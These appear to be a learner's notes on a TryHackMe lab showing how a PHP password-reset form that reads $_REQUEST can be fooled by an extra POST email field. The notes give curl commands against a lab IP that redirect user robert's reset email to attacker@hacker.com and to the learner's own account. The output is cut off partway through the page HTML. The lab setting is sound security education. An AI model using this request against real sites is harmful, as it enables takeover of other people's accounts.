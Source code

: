 ![[Pasted image 20241112092245.png]]
We use the `-H` flag to add an additional header to the request. In this instance, we are setting the `Content-Type` to `application/x-www-form-urlencoded`, which lets the web server know we are sending form data so it properly understands our request.

In the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`. 

The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.



```shell-session
user@tryhackme$ curl 'http://10.10.241.173/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```



![[Pasted image 20241112092135.png]]


so we could see that the vulnerablility allows us to login to any other user id and in the same way we could build our profile and then pass the email of ours and send a POST request to the user and raise a ticket for login of robert 


```html
-->root@ip-10-10-17-188:~# curl 'http://10.10.241.173/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlened' -d 'username=robert&email=mrp@customer.acmeitsupport.thm'
<!DOCTYPE html>
<html lang="en">
<head>
    <title>Acme IT Support - Customer Login</title>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
        <link rel="stylesheet" href="https://pro.fontawesome.com/releases/v5.12.0/css/all.css" integrity="sha384-ekOryaXPbeCpWQNxMwSWVvQ0+1VrStoPJq54shlYhR8HzQgig1v5fas6YgOqLoKz" crossorigin="anonymous">
        <link rel="stylesheet" href="/assets/bootstrap.min.css">
    <link rel="stylesheet" href="/assets/style.css">
</head>
<body>
    <nav class="navbar navbar-inverse navbar-fixed-top">
        <div class="container">
            <div class="navbar-header">
                <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                    <span class="sr-only">Toggle navigation</span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                    <span class="icon-bar"></span>
                </button>
                <a class="navbar-brand" href="#">Acme IT Support</a>
            </div>
            <div id="navbar" class="collapse navbar-collapse">
                <ul class="nav navbar-nav">
                    <li><a href="/">Home</a></li>
                    <li><a href="/news">News</a></li>
                    <li><a href="/contact">Contact</a></li>
                    <li class="active"><a href="/customers">Customers</a></li>
                </ul>
```